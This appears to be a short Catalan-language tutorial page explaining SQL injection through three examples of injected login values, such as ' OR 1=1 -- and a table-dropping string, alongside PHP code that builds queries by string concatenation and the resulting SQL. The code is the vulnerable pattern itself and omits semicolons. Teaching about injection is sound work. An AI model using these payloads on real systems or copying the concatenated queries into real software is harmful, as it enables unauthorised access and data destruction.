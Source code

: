 ## Exemple SQL injection
* Un perillós hacker omple un formulari amb aquestes dades:

![Formulari login](http://i.imgur.com/MMftsdg.png)

---

### **Exemple 1 SQL Injection:**
```php
<?php
	$user = "' OR 1=1 --"
	$pass = ""
	$sql = "SELECT * FROM users WHERE username='$user' AND password='$pass'";
?>
```
El **--** en MySQL indica que és un comentari .

```sql
SELECT * FROM users WHERE username='' OR 1=1 --' AND password=''
```
---

### **Exemple 2 SQL Injection:**

```php
<?php
	$user = "sergi"
	$pass = "' OR 1=1"
	$sql = "SELECT * FROM users WHERE username='$user' AND password='$pass'";
?>
```

```sql
SELECT * FROM users WHERE username='sergi' AND password='' OR 1=1;
```

---

## **Exemple 3 SQL Injection:**

```php
<?php
	$user = "'; DROP TALBE users --"
	$pass = ""
	$sql = "SELECT * FROM users WHERE username='$user' AND password='$pass'";
?>
```

```sql
SELECT * FROM users WHERE username=''; DROP TALBE users --' AND password=''
```

---
